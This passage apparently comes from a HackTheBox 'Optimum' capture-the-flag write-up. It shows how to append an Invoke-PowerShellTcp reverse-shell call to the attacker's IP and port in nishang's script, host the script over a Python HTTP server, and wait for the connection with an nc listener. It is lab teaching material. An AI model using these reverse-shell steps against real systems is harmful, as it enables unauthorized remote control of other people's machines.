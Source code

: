 ![image](/assets/img/optimum/03.png)

**Step 03**

Since i get a ping back then i will download [nishang](https://github.com/samratashok/nishang) and navigate to  `shells` and open  `Invoke-PowerShellTcp.ps1` . In this script change some few things such as follows 
```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
```
Copy the above command and place at the bottom of the script and then do some changes such as add your `tun0` ip address, port number can remain the same.
```
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.27 -Port 9005
```
**Step 04**

Start python server to host the script 
```
┌──(gemstone㉿hashghost)-[~/…/Optimum/exploit/nishang/Shells]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
**Step 05**<br>
Start listener for a remote connection. 
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/OSCP/Optimum]
└─$ nc -nlvp 9005
listening on [any] 9005 ...
```
**Step 06**
